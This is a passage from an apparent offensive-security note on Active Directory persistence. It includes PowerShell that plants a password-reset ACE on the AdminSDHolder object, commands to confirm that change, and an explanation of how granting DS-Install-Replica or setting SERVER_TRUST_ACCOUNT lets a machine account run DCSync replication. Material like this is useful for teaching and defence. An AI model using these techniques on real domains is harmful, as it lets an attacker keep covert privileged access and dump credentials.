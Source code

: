 ```
    [System.Security.AccessControl.AccessControlType]::Allow,
    "00299570-246d-11d0-a768-00aa006e0529",
    [DirectoryServices.ActiveDirectorySecurityInheritance]::None
)
$AdminSDHolderACL.AddAccessRule($ACE_ResetPassword)
Set-Acl -Path $AdminSDHolder -AclObject $AdminSDHolderACL
```

The `PowerView`'s `Get-DomainObjectAcl` and `ActiveDirectory` PowerShell
module's `Get-Acl` cmdlets can be used to validate the modification:

```
# Uses PowerView to enumerate the ACL of the AdminSDHolder object.
$UserSID = Get-DomainUser -Identity <SamAccountName | DistinguishedName | SID | GUID> | Select-Object -ExpandProperty objectsid
Get-DomainObjectAcl -Identity "CN=AdminSDHolder,CN=System,<DOMAIN_ROOT>" -ResolveGUIDs | ? {$_.securityidentifier -eq $UserSID}

# Uses the PowerShell ActiveDirectory module to enumerate the ACL of the AdminSDHolder object.
# To enumerate ACL from a different domain (the AD drive to the current domain should automatically be mapped whenever importing the ActiveDirectory PowerShell module):
New-PSDrive -Name <AD | DRIVE_NAME> -PSProvider ActiveDirectory -Server '<DC_HOSTNAME | DC_IP>' -root "//RootDSE/" [-Credential <PSCredential>]
Get-Acl "<AD | DRIVE_NAME>:\CN=AdminSDHolder,CN=System,<DOMAIN_ROOT>" | Select-Object -ExpandProperty Access | ? IdentityReference -Match "<SAMACCOUNTNAME>"
```

### DRSUAPI replication operations (DCSync attack) rights

*Refer to the `[ActiveDirectory] ntds.dit dumping` note for tools and
techniques to conduct replication operations (DCSync attack).*

###### Minimal ACEs

###### Machine account with SERVER_TRUST_ACCOUNT

A machine account that has its `UserAccountControl` attribute with the
`SERVER_TRUST_ACCOUNT` (`0x2000` / `8192`) bit set is able to perform
replication operations (`DCSync` attack) implicitly. The machine account will
indeed be considered as a Domain Controller and be able to replicate AD objects
with out the `Ds-Replication-Get-Changes` and `Ds-Replication-Get-Changes-All`
extended rights.

The `DS-Install-Replica` extended right, on the domain root object, is
required to set an account `UserAccountControl` attribute's
`SERVER_TRUST_ACCOUNT` bit. This right is by default granted to the
`Domain Admins`, `Administrators`, and `Enterprise Admins` groups. **Granting
the `DS-Install-Replica` extended right to an otherwise unprivileged account
may thus also be used as a mean of persistence.**

Whenever an machine account `UserAccountControl` attribute's
`SERVER_TRUST_ACCOUNT` bit is set, the `primaryGroupId` of the account will be
set to `516` (`DOMAIN_GROUP_RID_CONTROLLERS`) and the account added to the
group referenced by the previous `primaryGroupId` value. While the
`SERVER_TRUST_ACCOUNT` bit is set, the `primaryGroupId` of the machine account
will not be modifiable (error: "Cannot change the primary group ID of a domain
controller account").
